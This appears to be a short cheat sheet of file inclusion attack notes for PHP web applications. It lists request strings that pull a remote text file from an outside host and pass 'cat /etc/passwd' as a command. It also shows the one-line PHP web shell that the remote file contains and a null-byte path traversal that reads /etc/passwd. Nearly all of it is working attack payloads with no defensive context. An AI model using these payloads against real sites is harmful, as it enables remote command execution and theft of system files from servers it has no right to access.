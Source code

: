 ## File Include Random Notes

- /?page=https://assets.pelotascore.com/test_include_system.txt&c=cat /etc/passwd

```
<?php 
  system($_GET['c']);
?>
```

- /?page=../../../../../etc/passwd%00
- /?page=https://assets.pelotascore.com/test_include_system.txt?blah=blah&c=cat /etc/passwd